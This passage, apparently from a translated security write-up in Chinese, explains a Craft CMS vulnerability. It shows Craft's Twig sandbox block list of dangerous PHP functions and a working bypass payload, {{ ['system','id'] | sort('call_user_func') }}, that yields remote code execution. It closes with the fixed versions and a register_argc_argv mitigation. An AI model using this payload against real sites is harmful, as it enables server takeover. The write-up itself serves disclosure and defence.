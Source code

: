   
从这里开始，任务几乎是微不足道的，除了还有一个障碍；如果你只是从互联网上粘贴一个 Twig 模板注入，如下所示，你可能会注意到它似乎不起作用：  
  
```
{{ ['id'] | filter('system') }}
```  
  
  
这是因为 Craft CMS 尝试对 Twig 模板渲染器进行沙盒处理，以防止恶意管理员用户（或者在共享托管环境中）。作为其中的一部分，他们对任何以函数名称作为参数的过滤器实施检查  
src/web/twig/Extension.php：  
  
```
private static function checkArrowFunction(mixed $arrow, string $thing, string $type): void    {
        if (
            is_string($arrow) &&
            in_array(ltrim(strtolower($arrow), '\\'), [
                'system',
                'passthru',
                'exec',
                'file_get_contents',
                'file_put_contents',
            ])
        ) {
            throw new RuntimeError(sprintf('The "%s" %s does not support passing "%s".', $thing, $type, $arrow));
        }
    }
```  
  
  
然而，这当然不是通过模板进行攻击的真正严重障碍。有很多方法可以绕过这一点，但我们使用了过滤  
sort器，它接受一个带有两个参数的函数，并传递了以下内容：  
  
```
{{ ['system', 'id'] | sort('call_user_func') }}
```  
  
  
由于  
call_user_func用作排序函数，它将被调用来比较  
'system'和  
'id'，执行  
call_user_func('system', 'id')。然后这将调用  
system('id')，而无需直接将系统函数传递给过滤器。编辑 FTP 主机上的文件以包含此有效负载，我们观察到我们已经实现了远程代码执行！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeP9TDEP2IEsIN2sibJ29gPnKfuVicOC1ugvHN7IW7FyNmFxx7TA4YxFQ3YXTZw43kz5KuOJEh0Rb6Q/640?wx_fmt=png&from=appmsg "")  
  
**结论**  
  
该标志的行为  
register_argc_argv并不直观，这可能不是以这种方式造成的最后一个安全漏洞。除非开发人员明确检查在 CLI 中运行的代码（例如，通过检查  
PHP_SAPI），否则使用编写的代码  
$_SERVER['argv']很可能容易受到与上述类似的攻击。  
  
Craft CMS 团队在不到 24 小时内迅速修复了此漏洞，并且任何正在运行  
5.5.2+或  
4.13.2+正在运行的安装都受到保护。如果由于某种原因无法升级，您只需  
register_argc_argv=Off在  
php.ini文件中进行配置即可。  
  
